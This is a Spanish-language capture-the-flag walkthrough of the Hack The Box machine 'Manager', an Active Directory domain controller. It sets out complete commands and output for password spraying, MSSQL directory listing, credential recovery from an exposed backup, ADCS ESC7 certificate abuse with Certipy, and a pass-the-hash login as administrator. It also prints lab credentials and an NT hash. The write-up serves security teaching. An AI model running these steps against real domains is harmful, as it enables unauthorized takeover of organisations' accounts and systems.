





---

# Ficha técnica


- **Máquina:** Manager
- **Dificultad:** Media
- **Plataforma:** Hack The Box
- **Creador:** Geiseric
- **Resumen:** Manager es una máquina Windows de dificultad media. La fase de enumeración inicial comienza con la recolección de usuarios válidos mediante la enumeración de RID. Con la lista obtenida, se realiza un ataque de *Password Spraying* que permite comprometer la cuenta `operator`. Estas credenciales otorgan acceso al servicio MSSQL, desde el cual se localiza y descarga una copia de seguridad expuesta en el servicio web. El análisis del archivo comprimido revela las credenciales del usuario `raven`. Finalmente, la escalada de privilegios se logra explotando permisos inseguros sobre la autoridad certificadora (AD CS) mediante el vector ESC7 (`manageCA`), lo que permite emitir un certificado a nombre del usuario `administrator`, extraer su hash NT y consolidar el compromiso total del sistema.

---

## 1. Reconocimiento

### 1.1. Comprobación de conectividad

La fase de reconocimiento comenzó verificando la conectividad con el sistema objetivo mediante el envío de cuatro paquetes ICMP:

```bash
ping -c 4 10.129.107.56
```

```plaintext
PING 10.129.107.56 (10.129.107.56) 56(84) bytes of data.
64 bytes from 10.129.107.56: icmp_seq=1 ttl=127 time=124 ms
64 bytes from 10.129.107.56: icmp_seq=2 ttl=127 time=113 ms
64 bytes from 10.129.107.56: icmp_seq=3 ttl=127 time=113 ms
64 bytes from 10.129.107.56: icmp_seq=4 ttl=127 time=113 ms

--- 10.129.107.56 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 112.669/115.595/123.878/4.783 ms
```

> **Conclusión:** Se confirmó una conectividad estable (0% de pérdida de paquetes). El valor de TTL devuelto (127) sugiere que el sistema operativo objetivo es Windows, al encontrarse próximo al valor predeterminado de 128.

---

### 1.2. Escaneo de puertos TCP

Se ejecutó un escaneo sobre la totalidad del rango de puertos TCP mediante Nmap para identificar los servicios expuestos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.107.56
```

```plaintext
Nmap scan report for 10.129.107.56
Host is up (0.12s latency).
Not shown: 65513 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49693/tcp open  unknown
49694/tcp open  unknown
49695/tcp open  unknown
49726/tcp open  unknown
49774/tcp open  unknown
49793/tcp open  unknown
```

> **Conclusión:** Se detectaron 22 puertos abiertos. Queda confirmado que el objetivo ejecuta un sistema operativo **Windows** y opera como controlador de dominio en Active Directory, lo cual se evidencia claramente por la presencia de servicios clave como DNS (53), Kerberos (88), LDAP (389) y SMB (445).

---

## 2. Enumeración

### 2.1. Enumeración general de puertos TCP

Una vez identificados los puertos abiertos, se continuó con el proceso de enumeración utilizando Nmap para detectar versiones de servicios y ejecutar los scripts predeterminados del motor (NSE):

```bash
sudo nmap -p 53,80,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,49667,49683,49684,49689,49722,49787,60563 -sCV -Pn -n 10.129.107.56
```

```plaintext
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Manager
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-09 04:48:13Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Not valid before: 2024-08-30T17:08:51
|_Not valid after:  2122-07-27T10:31:04
|_ssl-date: 2026-10-09T04:49:48+00:00; +6h59m51s from scanner time.
445/tcp   open  microsoft-ds?
<!-------------------- Recortado para optimizar -------------------->
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.107.56:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
<!-------------------- Recortado para optimizar -------------------->
Host script results:
| smb2-time: 
|   date: 2026-10-09T04:49:08
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m49s, deviation: 0s, median: 6h59m49s
```

#### **Información relevante recopilada:**

- **Dominio:** `manager.htb`
- **Hostname:** `dc01.manager.htb` (confirma definitivamente que se trata del controlador de dominio).
- **Servicio Web:** Microsoft IIS 10.0 con el título "Manager".
- **Base de datos:** Microsoft SQL Server 2019 (MSSQL), un vector potencial para la ejecución de comandos si se obtienen credenciales válidas.
- **Acceso remoto:** WinRM disponible para la gestión remota del sistema.

> **Conclusión:** Se añadieron los dominios `manager.htb` y `dc01.manager.htb` al archivo local `/etc/hosts` para asegurar una correcta resolución de nombres antes de proceder con la enumeración detallada de los servicios principales (como DNS en el puerto 53, HTTP en el 80 y SMB en el 445).

---

### 2.2. Enumeración de usuarios y Password Spraying

Al no encontrar vectores de entrada directos ni carpetas compartidas anónimas en SMB, se realizó una enumeración de identidades mediante consultas RID con `lookupsid.py`:

```bash
impacket-lookupsid 'guest'@10.129.107.56
```

```plaintext
500: MANAGER\Administrator (SidTypeUser)
501: MANAGER\Guest (SidTypeUser)
502: MANAGER\krbtgt (SidTypeUser)
1000: MANAGER\DC01$ (SidTypeUser)
1113: MANAGER\Zhong (SidTypeUser)
1114: MANAGER\Cheng (SidTypeUser)
1115: MANAGER\Ryan (SidTypeUser)
1116: MANAGER\Raven (SidTypeUser)
1117: MANAGER\JinWoo (SidTypeUser)
1118: MANAGER\ChinHae (SidTypeUser)
1119: MANAGER\Operator (SidTypeUser)
```

Tras consolidar la lista de usuarios, se ejecutó un ataque de Password Spraying mediante NetExec probando el nombre de cada usuario como clave (evaluando variaciones de mayúsculas/minúsculas):

```bash
nxc smb 10.129.107.56 -u valid_users.txt -p valid_users.txt --no-bruteforce
```

```plaintext
manager.htb\administrator:administrator STATUS_LOGON_FAILURE 
SMB         10.129.107.56   445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE 
SMB         10.129.107.56   445    DC01             [-] manager.htb\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         10.129.107.56   445    DC01             [-] manager.htb\dc01$:dc01$ STATUS_LOGON_FAILURE 
SMB         10.129.107.56   445    DC01             [-] manager.htb\zhong:zhong STATUS_LOGON_FAILURE 
SMB         10.129.107.56   445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE 
SMB         10.129.107.56   445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE 
SMB         10.129.107.56   445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE 
SMB         10.129.107.56   445    DC01             [-] manager.htb\jinwoo:jinwoo STATUS_LOGON_FAILURE 
SMB         10.129.107.56   445    DC01             [-] manager.htb\chinhae:chinhae STATUS_LOGON_FAILURE 
SMB         10.129.107.56   445    DC01             [+] manager.htb\operator:operator
```

> **Conclusión:** Se identificaron las credenciales válidas `operator:operator`.

---

### 2.3. Enumeración de MSSQL

Tras comprobar que el acceso por SMB y WinRM con el usuario `operator` no aportaba información relevante, se validaron las credenciales en el servicio MSSQL:

```bash
nxc mssql 10.129.107.56 -u 'operator' -p 'operator'
```

```plaintext
MSSQL       10.129.107.56   1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb) (EncryptionReq:False)
MSSQL       10.129.107.56   1433   DC01             [+] manager.htb\operator:operator
```

Las credenciales resultaron válidas. Al intentar conectar con la herramienta de Impacket, el inicio de sesión directo falló:

```bash
impacket-mssqlclient manager.htb/operator:operator@10.129.107.56 -port 1433
```

```plaintext
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'operator'.
```

Este comportamiento se solucionó forzando la autenticación de Windows mediante el parámetro `-windows-auth`:

```bash
impacket-mssqlclient manager.htb/operator:operator@10.129.107.56 -port 1433 -windows-auth
```



Una vez establecida la sesión interactiva, la ejecución directa de comandos en el sistema operativo fue denegada por restricciones de privilegios. Sin embargo, se utilizó el procedimiento almacenado `xp_dirtree` para listar el contenido de la ruta por defecto del servidor web IIS (`C:\inetpub\wwwroot`), la cual no se había podido enumerar previamente por fuerza bruta:

```bash
xp_dirtree C:\inetpub\wwwroot
```

```plaintext
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   
contact.html                          1      1   
css                                   1      0   
images                                1      0   
index.html                            1      1   
js                                    1      0   
service.html                          1      1   
web.config                            1      1   
website-backup-27-07-23-old.zip       1      1
```

> **Conclusión:** Se descubrió el archivo comprimido `website-backup-27-07-23-old.zip` expuesto directamente en la raíz del servicio web, el cual puede descargarse para su análisis local en busca de información sensible.

---

### 2.4. Enumeración de la copia de seguridad

Tras descargar el archivo comprimido, se inspeccionó su contenido con 7z:

```bash
7z l website-backup-27-07-23-old.zip
```



Durante la revisión, se detectó un archivo oculto llamado `.old-conf.xml`, el cual se examinó de inmediato en busca de información sensible:

```bash
7z x website-backup-27-07-23-old.zip
cat .old-conf.xml
```

```XML
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>
```

---

## 3. Explotación

### 3.1. Acceso inicial

El archivo de configuración reveló las credenciales del usuario `raven` (`raven:R4v3nBe5tD3veloP3r!123`). Se procedió a validar su acceso frente al servicio WinRM:

```bash
nxc winrm 10.129.107.56 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'
```

```plaintext
WINRM       10.129.107.56   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb) 
WINRM       10.129.107.56   5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)
```

Una vez confirmadas las credenciales, se estableció una sesión interactiva utilizando `evil-winrm`:

```bash
evil-winrm -i 10.129.107.56 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'
```



> **Conclusión:** Se obtuvo con éxito el acceso inicial al sistema objetivo bajo el contexto del usuario `raven`.

---

## 4. Post-Explotación

### 4.1. Escalada de privilegios vía AD CS (ESC7) 

Se realizó una búsqueda de plantillas vulnerables utilizando Certipy:

```bash
certipy-ad find -vulnerable -username 'raven' -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.107.56 -stdout
```



> La auditoría reveló que la cuenta `raven` posee el permiso `ManageCA` sobre la entidad certificadora `manager-DC01-CA`. Este escenario configura la vulnerabilidad ESC7. Un usuario con dicho privilegio puede asignarse a sí mismo el rol de Officer (gestor de certificados) y activar plantillas vulnerables (como `SubCA`), permitiendo aprobar solicitudes denegadas manualmente. [HackTricks](https://hacktricks.wiki/es/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.html)


#### Metodología de escalada:

**Paso 1:** Se concedió el derecho de gestión de certificados agregando a `raven` como oficial de la CA:

```bash
certipy-ad ca -ca 'manager-DC01-CA' -add-officer 'raven' -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123'
```

```plaintext
[!] DNS resolution failed: The DNS query name does not exist: MANAGER.HTB.
[!] Use -debug to print a stacktrace
[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```

**Paso 2:** Se habilitó la plantilla `SubCA`:

```bash
certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123'
```

```plaintext
[!] DNS resolution failed: The DNS query name does not exist: MANAGER.HTB.
[!] Use -debug to print a stacktrace
[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'
```

**Paso 3:** Se solicitó un certificado basado en la plantilla `SubCA` para la cuenta del administrador:

```bash
certipy-ad req -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target dc01.manager.htb -template SubCA -upn administrator@manager.htb
```

```plaintext
[!] DNS resolution failed: The DNS query name does not exist: dc01.manager.htb.
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: MANAGER.HTB.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 20
[-] Got error while requesting certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
Would you like to save the private key? (y/N): y
[*] Saving private key to '20.key'
[*] Wrote private key to '20.key'
[-] Failed to request certificate
```

> *Nota: Aunque la solicitud fue denegada, se guardó la clave privada generada y el ID de solicitud número 20.*

**Paso 4:** Utilizando los privilegios de oficial de la CA, se emitió la solicitud de certificado previamente fallida:

```bash
certipy-ad ca -ca 'manager-DC01-CA' -issue-request 20 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

```plaintext
[!] DNS resolution failed: The DNS query name does not exist: MANAGER.HTB.
[!] Use -debug to print a stacktrace
[*] Successfully issued certificate request ID 20
```

**Paso 5:** Por último, se recuperó el certificado emitido:

```bash
certipy-ad req -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target dc01.manager.htb -retrieve 20
```

```plaintext
[!] DNS resolution failed: The DNS query name does not exist: dc01.manager.htb.
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: MANAGER.HTB.
[!] Use -debug to print a stacktrace
[*] Retrieving certificate with ID 20
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '20.key'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

> **Conclusión:** Mediante el certificado de administrador obtenido, es posible interactuar con el servicio de Kerberos para solicitar un Ticket Granting Ticket (TGT) y extraer el Hash NT del usuario Administrador.

---

### 4.2. Autenticación PKINIT y Pass-the-Hash

Para evitar fallos en la autenticación Kerberos producto del *clock skew* (desincronización de tiempo), se sincronizó la hora local con la del servidor objetivo:

```bash
sudo timedatectl set-ntp off
sudo rdate -n 10.129.107.56
```

Posteriormente, se empleó el archivo `administrator.pfx` para solicitar un TGT y recuperar el Hash NT del usuario Administrador a través del protocolo Kerberos (PKINIT):

```bash
certipy-ad auth -dc-ip '10.129.107.56' -pfx 'administrator.pfx' -username 'administrator' -domain 'manager.htb'
```

```plaintext
[*] Certificate identities:
[*]     SAN UPN: 'administrator@manager.htb'
[*] Using principal: 'administrator@manager.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

Finalmente, se estableció una sesión interactiva ejecutando un ataque de *Pass-the-Hash* mediante `evil-winrm`:

```bash
evil-winrm -i 10.129.107.56 -u 'administrator' -H 'ae5064c2f62317332c88629e025924ef'
```



> **Conclusión:** Se concluyó el laboratorio con éxito, logrando el compromiso total del sistema y obteniendo acceso administrativo absoluto al controlador de dominio.

---